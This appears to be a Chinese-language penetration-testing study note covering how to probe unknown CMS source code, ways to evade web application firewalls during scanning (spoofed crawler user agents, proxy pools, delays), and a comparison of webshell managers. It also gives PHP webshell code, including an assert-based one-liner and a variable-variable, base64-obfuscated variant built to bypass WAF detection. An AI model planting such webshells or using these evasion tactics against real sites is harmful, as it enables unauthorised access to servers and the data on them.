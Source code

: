 #未知CMS
如常见的企业或个人内部程序源码，也可以是某CMS二次开发的源码结构，针对此类的源码程序测试思路：能识别二次开发就按已知CMS思路进行，不能确定二次开发的话可以采用常规综合类扫描工具或脚本进行探针，也可以采用人工探针（功能点，参数，盲猜），同样在有源码的情况下也可以进行代码审计自行挖掘。

apk提取url-->**漏了个大洞**



信息收集waf绕过

安全狗：改请求方式、模拟用户（延时）、爬虫白名单，保证网站被浏览器收录，如360spider、baiduspider，修改此类ua头、找网上的免费代理，写脚本发包;

阿里云：阿里云的服务器只能采用模拟用户然后用代理池或延时扫描，爬虫引擎对阿里云无效，速度太快都会封

阿里云+宝塔+安全狗-->代理池或延时(至少3秒)



webshell绕过waf

1.变量覆盖

原式：<?php assert ($_POST['chopper']);?>

<?php

$a=$_GET['x'];

$$a=$_GET['y'];

$b($_POST['z'])-----加密处理--------->$b(base64_decode($_POST['z']))		//命令执行时要把z值base64加密，绕过waf的参数检测 

?>

http://xxxx/?x=b&y=assert&z=chopper	带入上述php代码就变成如下

<?php

$a=**b**

$$a=**assert**; 	-------->$$a----------->$($a)--------------->$b=assert;

$b(**'chopper'**)	------------->***assert('chopper')***

?>

2.混淆加密

php在线加密把webshell代码加密混淆



菜刀，蚁剑，冰蝎优缺点
菜刀：未更新状态，无插件，单向加密传输
蚁剑：更新状态，有插件，拓展性强，单向加密传输
冰蝎：更新状态，未知插件，双向加密传输



代码审计：

MVC架构 url：xxx.com/index.php?s=xx&c=xx&m=xx

一般s对应目录，c对应文件名，m对应方法

**渗透测试流程：**

